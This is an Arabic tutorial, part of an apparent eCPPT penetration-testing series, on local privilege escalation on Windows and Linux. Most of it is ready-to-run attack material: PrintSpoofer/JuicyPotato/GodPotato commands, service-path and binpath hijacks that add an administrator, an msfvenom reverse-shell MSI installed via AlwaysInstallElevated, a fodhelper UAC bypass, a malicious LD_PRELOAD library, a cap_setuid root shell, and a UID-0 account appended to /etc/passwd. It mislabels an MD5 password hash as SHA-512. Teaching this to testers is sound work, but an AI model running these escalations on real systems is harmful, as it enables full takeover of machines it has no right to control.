


يعد تصعيد الصلاحيات (**Privilege Escalation**) المرحلة الفاصلة بعد الحصول على موطئ قدم أولي كمستخدم محدود الصلاحيات (Standard User أو مساحة تطبيق ويب مثل `www-data`). فبدون رفع الصلاحيات إلى أعلى مستوى في نظام التشغيل (`NT AUTHORITY\SYSTEM` في ويندوز أو `root` في لينكس)، لا يمكن لمختبر الاختراق استخراج كلمات المرور المشفرة من الذاكرة، أو تثبيت الاستمرارية، أو استكمال التوجيه الشبكي (Pivoting).

في هذا الدليل العملي المعمق، سنستعرض الترسانة الكاملة لتصعيد الصلاحيات محليًا على أنظمة Windows و Linux بأسلوب تطبيقي مباشر يغطي كافة متطلبات مختبرات واختبار **eCPPT**.

---

### جدول التنقل في السلسلة (Series Navigation)

| **المقال السابق** | **المقال الحالي** | **المقال القادم** |
| :---: | :---: | :---: |
| [الجزء 4: اختبار اختراق الدليل النشط (Active Directory)](/posts/ecppt-v3-part-4-active-directory-penetration-testing/) | **الجزء 5: تصعيد الصلاحيات على Windows و Linux** | [الجزء 6: الحركة الجانبية والقفز الشبكي (Pivoting)](/posts/ecppt-v3-part-6-lateral-movement-and-pivoting/) |

---

## أبرز النقاط الرئيسية (Key Takeaways)

* **انتحال رموز الأمان في ويندوز (Token Impersonation)**: امتلاك صلاحية `SeImpersonatePrivilege` أو `SeAssignPrimaryTokenPrivilege` (المتاحة افتراضيًا لحسابات الخدمات مثل `LOCAL SERVICE` و `NETWORK SERVICE`) يسمح بتنفيذ هجمات "البطاطس" (Potato Family مثل PrintSpoofer و GodPotato) وخداع النظام لإنشاء جلسة `SYSTEM`.
* **سوء تهيئة الخدمات (Insecure Services)**: البحث عن مسارات الخدمات غير المحاطة باقتباسات (Unquoted Service Paths)، أو الخدمات ذات الصلاحيات الضعيفة في قائمة التحكم بالوصول (Weak DACLs) لتعديل مسار الملف التنفيذي (`binpath`).
* **تجاوز UAC بصمت**: تجاوز آليات التحكم في حساب المستخدم عبر استغلال الملفات التنفيذية التي ترقي نفسها تلقائيًا (Auto-Elevate) وتقرأ مفاتيح سجل النظام (Registry) غير المحمية مثل `fodhelper.exe` و `sdclt.exe`.
* **ملفات SUID والتحايل على مسار PATH في لينكس**: استغلال الملفات الثنائية التي تعمل بصلاحيات المالك عبر قاعدة بيانات **GTFOBins**، واستغلال استدعاءات الأوامر النسبية لحقن مسارات خبيثة قبل المسارات النظامية.
* **ثغرات بيئة Sudo والقدرات (Capabilities)**: التدقيق في مخرجات `sudo -l` والبحث عن متغيرات البيئة الخطرة مثل `LD_PRELOAD`، واستغلال القدرات الممنوحة للملفات مثل `cap_setuid+ep`.

---

## أولاً: تصعيد الصلاحيات على أنظمة Windows

### 1. انتحال رموز الأمان وهجمات Potato (Token Impersonation)

في نظام ويندوز، عندما تبدأ خدمة بالعمل، يُنشأ لها رمز دخول (Access Token) يحدد هويتها وصلاحياتها. إذا كان المستخدم يملك صلاحية `SeImpersonatePrivilege`:

```cmd
whoami /priv
# Privilege Name                Description                               State
# ============================= ========================================= ========
# SeImpersonatePrivilege        Impersonate a client after authentication Enabled
```

يمكن للمهاجم إجبار عملية تعمل بصلاحيات `NT AUTHORITY\SYSTEM` (مثل خدمة الطباعة Spooler أو DCOM) على المصادقة عبر أنبوب مسمى (Named Pipe) يتحكم به المهاجم، ثم انتحال رمز أمان النظام للحصول على Shell كامل:



#### أوامر الاستغلال العملية:

```cmd
# 1. على أنظمة Windows 10 و Server 2016/2019 عبر PrintSpoofer
PrintSpoofer.exe -i -c cmd.exe

# 2. على أنظمة Windows Server 2012/2008 القديمة عبر JuicyPotato
JuicyPotato.exe -l 1337 -p c:\temp\rev.exe -t * -c {CLSID-Value}

# 3. الاستغلال العالمي الحديث عبر GodPotato (يدعم حتى Windows 11 و Server 2022)
GodPotato-NET4.exe -cmd "cmd.exe /c whoami"
```

---

### 2. استغلال الخدمات الضعيفة (Insecure Services)

#### أ. مسارات الخدمات غير المحاطة باقتباسات (Unquoted Service Paths)
إذا كان مسار خدمة يحتوي على مسافات وغير محاط بعلامات تنصيص `"..."`، فإن نظام ويندوز سيحاول البحث عن ملفات تنفيذية في كل مسافة في المسار:

```text
مسار الخدمة: C:\Program Files\My Service\daemon.exe
ويندوز يحاول تنفيذ:
1. C:\Program.exe
2. C:\Program Files\My.exe
3. C:\Program Files\My Service\daemon.exe
```

إذا كانت لدينا صلاحية كتابة في `C:\Program Files`، نضع ملفنا الخبيث باسم `My.exe` ونعيد تشغيل الخدمة:

```cmd
# كشف المسارات المصابة عبر WMI
wmic service get name,displayname,pathname,startmode | findstr /i /v "c:\windows\\" | findstr /i /v """

# وضع الحمولة وإعادة تشغيل الخدمة
copy rev_shell.exe "C:\Program Files\My.exe"
net stop VulnerableService && net start VulnerableService
```

#### ب. تعديل مسار الخدمة المباشر (Weak Service DACL)
إذا كان المستخدم يمتلك صلاحية `SERVICE_CHANGE_CONFIG` على الخدمة:

```cmd
# فحص الصلاحيات عبر أداة AccessChk من Sysinternals
accesschk.exe /accepteula -ucwv users VulnerableService

# تغيير مسار الملف التنفيذي للخدمة وحقن أمر إضافة مدير محلي
sc config VulnerableService binpath= "net localgroup administrators attacker /add"
sc stop VulnerableService
sc start VulnerableService
```

---

### 3. ثغرة التثبيت المرتفع (AlwaysInstallElevated)

إذا تم تفعيل هذه الخاصية في سجل النظام (Registry)، فإن خدمة تثبيت ويندوز (`msiexec.exe`) ستثبت أي حزمة MSI بصلاحيات `NT AUTHORITY\SYSTEM`:

```cmd
# التحقق من وجود المفاتيح في السجل
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
# إذا كانت القيمة 0x1 في كلا المسارين فالهدف مصاب تمامًا!

# توليد حزمة MSI خبيثة عبر msfvenom
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.50 LPORT=4444 -f msi -o update.msi

# تشغيل التثبيت بصمت ورفع الصلاحيات
msiexec /quiet /qn /i update.msi
```

---

### 4. تجاوز حماية التحكم بحساب المستخدم (UAC Bypass)

تعتمد هذه التقنية على استغلال برامج نظام ويندوز الرسمية الموثقة برقم موقع من مايكروسوفت وتحتوي على خاصية الرفع التلقائي في الـ Manifest (`autoElevate = true`).

```cmd
# استغلال أداة fodhelper.exe عبر التلاعب بمفتاح سجل الامتداد ms-settings
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe /c start C:\temp\shell.exe" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /f

# تشغيل الأداة (ستقوم بتنفيذ الأمر المحقون في السجل بصلاحيات المدير دون إظهار نافذة UAC!)
C:\Windows\System32\fodhelper.exe
```

---

## ثانيًا: تصعيد الصلاحيات على أنظمة Linux



---

### 1. استغلال ملفات SUID و التحايل على متغير المسار (PATH Hijacking)

ملفات SUID تعمل دائمًا بصلاحيات مالك الملف (الذي غالبًا ما يكون `root`).

```bash
# البحث عن كافة ملفات SUID في النظام
find / -perm -u=s -type f 2>/dev/null
```

#### سيناريو استدعاء الأوامر النسبية والتحايل على المسار (PATH Hijacking):
إذا وجدنا ملفًا تنفيذيًا خاصًا (Custom Binary) يحتوي على استدعاء لأمر بدون مسار مطلق (مثل استدعاء `service apache2 restart` بدلاً من `/usr/sbin/service`):

```bash
# فحص الكلمات النصية داخل الملف الثنائي
strings /opt/maintenance/backup_tool

# إنشاء ملف مزيف يحمل اسم service داخل /tmp
echo -e '#!/bin/bash\n/bin/bash -p' > /tmp/service
chmod +x /tmp/service

# وضع /tmp في بداية متغير المسار PATH
export PATH=/tmp:$PATH

# تشغيل الثنائي ذو صلاحية SUID
/opt/maintenance/backup_tool
# النتيجة: سيستدعي النظام سكريبت /tmp/service ويفتح Shell بروت فوري!
```

---

### 2. استغلال بيئة Sudo والمتغير LD_PRELOAD

عند تشغيل الأمر `sudo -l`، نقرأ الصلاحيات الممنوحة للمستخدم:

```text
Matching Defaults entries for student on target:
    env_reset, env_keep+=LD_PRELOAD

User student may run the following commands on target:
    (ALL : ALL) NOPASSWD: /usr/bin/find
```

#### الحالة 1: استغلال الأوامر المصرحة عبر GTFOBins
```bash
# استغلال أمر find لفتح جلسة تفاعلية
sudo find . -exec /bin/sh \; -quit
```

#### الحالة 2: استغلال احتفاظ بيئة Sudo بـ `LD_PRELOAD`
إذا كان خيار `env_keep+=LD_PRELOAD` مفعلًا، يمكننا إجبار أي أمر مدعوم بـ Sudo على تحميل مكتبة ديناميكية مشتركة (`.so`) نقوم بكتابتها لحقن شيفرة تعطينا الجذر فورًا:

```c
// كود المكتبة الخبيثة evil.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

```bash
# ترجمة الكود إلى مكتبة مشتركة
gcc -fPIC -shared -o /tmp/evil.so evil.c -nostartfiles

# تشغيل أي أمر مسموح به في sudo مع تحميل المكتبة
sudo LD_PRELOAD=/tmp/evil.so /usr/bin/find
# المخرج الفوري: root@target:~#
```

---

### 3. ثغرات القدرات الأمنية (Linux Capabilities)

تُقسم قدرات لينكس صلاحيات `root` المطلقة إلى امتيازات دقيقة ومستقلة:

```bash
# استكشاف القدرات الممنوحة للملفات الثنائية
getcap -r / 2>/dev/null

# إذا وجدنا مثلاً: /usr/bin/python3 = cap_setuid+ep
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

---

### 4. التعديل على ملفات الحسابات الحساسة (/etc/passwd)

إذا كان ملف `/etc/passwd` يملك صلاحيات كتابة للمستخدمين العاديين (سواء بسبب خطأ في الإعدادات `chmod 777`):

```bash
# توليد هاش كلمة مرور جديدة بمعيار SHA-512
openssl passwd -1 -salt evil Password123
# الناتج: $1$evil$T7c96Bq0hR84g...

# إضافة حساب مستخدم جديد بصلاحيات root (UID 0 و GID 0)
echo 'hacker:$1$evil$T7c96Bq0hR84g...:0:0:root:/root:/bin/bash' >> /etc/passwd

# التبديل الفوري للمستخدم الجديد
su hacker
# إدخال كلمة المرور: Password123 -> الحصول على صلاحية Root!
```

---

## المراجع والمصادر الخارجية (References & Further Reading)

1. **GTFOBins Project**: الدليل المرجعي العالمي لتجاوز حمايات وصلاحيات ملفات لينكس الثنائية: [https://gtfobins.github.io/](https://gtfobins.github.io/)
2. **LOLBAS Project (Living Off The Land Binaries and Scripts)** لبيئات ويندوز: [https://lolbas-project.github.io/](https://lolbas-project.github.io/)
3. **PayloadsAllTheThings - Privilege Escalation Guides**: [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
4. **HackTricks - Windows & Linux Local Privilege Escalation**: موسوعة كارلوس بولوب الميدانية.
5. **MITRE ATT&CK Matrix**:
   * Technique T1548: Abuse Elevation Control Mechanism (Bypass UAC, SUID/SGID)
   * Technique T1134: Access Token Manipulation

---

*Author: Abdulrahman M. Fathi (0x3bdo) • Cyber Security Engineer & Penetration Tester*
